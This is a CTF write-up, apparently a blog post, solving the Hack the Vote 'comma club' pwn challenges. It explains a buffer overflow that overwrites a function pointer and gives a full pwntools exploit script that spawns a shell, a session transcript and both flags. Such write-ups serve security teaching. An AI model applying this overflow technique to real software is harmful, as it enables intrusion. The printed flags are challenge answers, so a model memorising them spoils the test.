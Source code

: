 ```yaml
---
title: comma club writeup
date: 2024-07-05
description: "writeup of the comma-club and comma-club-revenge challenges from hack the vote ctf"
tags: ["ctf","pwn","hackthevote"]
---
```

# Challenge description

[link to challange](https://hackthe.vote/challenges#Comma%20Club-12)

"We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though."

nc comma-club.chal.hackthe.vote 1337

[file](https://hackthe.vote/files/7bc724cdc53f5e8375258cb26e69b258/comma-club.tar.gz)

# Solution

After inspecting the checksec output, we can see that the binary is not stripped and has all the protections disabled. We can also see that the binary is a 64-bit ELF file.

![checksec](/images/comma/comma_checksec.png)

In program we can add votes for cadidates and check the results. Other fuctionalities are locked with password. After inspecting the binary in IDA we can see that goal is to get to the close voting option ( it executes system("/bin/sh") ).

![ida](/images/comma/comma_goal.png)

When adding votes there is a limit of 584057 votes that we cann add to the candidate. Also when displaying the results, the program checks if the candidate has more than 584057 votes and if so, resets them to 0, but this happens only when we call the function that displays the results.

Candidates are stored in a structure that is innitialized like this:

![candidates](/images/comma/comma_candidate_structure.png)

After experimenting with the program, if we add a lot of votes for a candidate, the program will crash wig SIGSEGV. 

![cand_array](/images/comma/comma_cand_array.png)


Here in debuger we can see how candidates are stored in memory. 
(Name, votes,string representation of votes and poiter to function that displays the results)

Function print_int_with_commas has a buffer overflow vulnerability. We can overwrite the pointer to the function that displays the results. 

![chage_password_function](/images/comma/comma_change_password_function.png)

So we can overwrite last byte of the pointer so it points to change_password_to function. Last byte needs to be 0x39 which is 9 is ASCII. 

Here you can see how the cand_array looks like after overwriting the pointer.

![overwritten_pointer](/images/comma/comma_overflowed.png)

Last step is to determine to what password will be changed. We can see that by inspecting RAX register when we enter function.

![password](/images/comma/comma_new_password.png)

Here is final exploit:

```python
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```

Also program can be exploited like this:

```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```

This exploit happend to work also on second part of the challange called comma-club-revenge (this challange could be also exploited by sending null bytes as password to terminate strncpy).

Second flag:
```
flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}
```









